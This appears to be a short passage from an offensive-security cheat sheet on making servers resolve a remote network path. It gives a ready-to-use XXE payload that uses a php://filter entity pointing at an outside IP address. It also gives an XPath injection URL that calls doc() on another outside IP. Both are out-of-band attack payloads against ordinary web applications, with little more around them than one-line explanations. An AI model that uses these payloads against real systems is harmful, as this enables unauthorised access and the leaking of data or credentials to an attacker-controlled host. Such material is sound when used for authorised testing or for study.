 ## XXE

In here I’m using “php://filter/convert.base64-encode/resource=” that will resolve a network path.

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=//11.22.33.44/@OsandaMalith" >
]>
<root>
  <name></name>
  <tel></tel>
  <email>OUT&xxe;OUT</email>
  <password></password>
</root>
```

![](<../../.gitbook/assets/image (618).png>)

## XPath Injection

Usually, doc() is used in out-of-band XPath injections, thus can be applied in resolving a network path.

```
http://host.tld/?title=Foundation&type=*&rent_days=* and doc('//35.164.153.224/@OsandaMalith')
```
